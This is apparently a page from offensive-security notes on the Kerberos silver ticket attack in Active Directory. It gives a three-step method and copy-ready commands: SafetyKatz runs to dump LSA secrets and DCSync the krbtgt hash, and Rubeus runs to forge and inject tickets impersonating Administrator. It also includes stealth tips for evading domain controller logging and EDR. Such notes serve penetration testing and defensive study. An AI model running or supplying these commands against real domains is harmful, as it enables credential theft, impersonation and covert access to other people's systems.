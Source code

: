 >**ℹ️ Info:**
> Short-term persistence, machine account passwords are rotated by default every 30 days.
> 
> Very good if OPSEC is needed since it won't interact with the domain controller.
---
# Methodology
>1. Retrieve the AES-256 key or RC4 hash of the service account.
>2. Forge and inject the ticket.
>3. Impersonate any user and access any service on the machine.

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz

**Retrieve the AES-256 key of the service account:**
```cmd
SafetyKatz.exe '"lsadump::lsa /patch"'
SafetyKatz.exe '"lsadump::dcsync /user:contoso\krbtgt"'
```

## Rubeus
**Forge a silver ticket:**
```cmd
# With an NTLM hash (Usually flagged by EDRs)
Rubeus.exe silver /service:http/us-dc.us.contoso.local /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /user:Administrator /domain:us.contoso.local /sid:S-1-5-21-210670787-2521448726-163245708 /ldap /ptt

# With an AES-256 key (Admin cmd required)
Rubeus.exe silver /service:http/us-dc.us.contoso.local /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /user:Administrator /domain:us.contoso.local /sid:S-1-5-21-210670787-2521448726-163245708 /ldap /ptt
```

>**ℹ️ Info:**
>We use the domain SID in this case to avoid Rubeus getting confused when in a multi-domain enviroment.